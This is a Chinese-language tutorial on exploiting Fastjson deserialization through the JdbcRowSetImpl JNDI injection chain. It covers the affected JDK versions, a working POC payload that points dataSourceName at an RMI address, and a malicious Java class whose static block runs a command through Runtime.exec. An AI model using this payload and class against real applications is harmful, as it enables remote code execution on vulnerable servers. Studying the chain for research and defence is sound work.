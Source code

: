 ## 简介

对于TemplatesImpl链来讲，局限相对较大，需要传入特定的参数以及需要特定的格式，本文的JdbcRowSetImpl利用链利用范围会比TemplatesImpl利用链的利用范围要大一些，但是同样也有着一些限制。

基于JdbcRowSetImpl的利用链主要有两种利用方式，即JNDI+RMI和JNDI+LDAP，都是属于基于Bean Property类型的JNDI的利用方式。

JdbcRowSetImpl类位于 `com.sun.rowset.JdbcRowSetImpl` ，是 `javax.naming.InitialContext#lookup()` 参数可控导致的 JNDI 注入。

#### 限制

由于是利用JNDI注入漏洞来触发的，因此主要的限制因素是JDK版本。

基于RMI利用的JDK版本<=6u141、7u131、8u121，基于LDAP利用的JDK版本<=6u211、7u201、8u191。

### JNDI+RMI

POC：

```java
import com.alibaba.fastjson.JSON;


public class JNDI_Test {
    public static void main(String[] args) throws Exception {
        String payload = "{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"rmi://127.0.0.1:1099/calc\", \"autoCommit\":true}";
        JSON.parse(payload);
    }
}
```

TouchFile.java

```java
import java.lang.Runtime;
import java.lang.Process;

public class TouchFile {
    static {
        try {
            Runtime rt = Runtime.getRuntime();
            String[] commands = {"calc"};
            Process pc = rt.exec(commands);
            pc.waitFor();
        } catch (Exception e) {
            // do nothing
        }
    }
}
```

编译后开一个http服务挂起
